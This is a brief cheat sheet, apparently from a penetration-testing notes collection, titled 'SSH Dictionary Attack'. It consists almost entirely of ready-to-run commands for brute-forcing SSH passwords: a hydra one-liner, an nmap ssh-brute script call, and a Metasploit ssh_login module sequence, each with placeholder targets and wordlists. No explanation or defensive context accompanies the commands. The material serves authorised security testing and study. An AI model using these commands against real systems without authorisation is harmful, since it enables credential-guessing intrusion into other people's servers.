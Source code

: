 # SSH Dictionary Attack
#### USING HYDRA:

```
hydra -l <USERNAME> -P <PASSWORD WORDLIST> <TARGET> ssh
```

#### USING NMAP NSE SCRIPT:

```
nmap <TARGET> -p 22 --script ssh-brute --script-args userdb=<USERNAME WORDLIST>,passdb=<PASSWORD WORDLIST>
```

#### USING METASPLOIT:

```
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOST <TARGET>
set USERPASS_FILE <PASSWORD WORDLIST>
set STOP_ON_SUCCESS true
set VERBOSE true
exploit
```
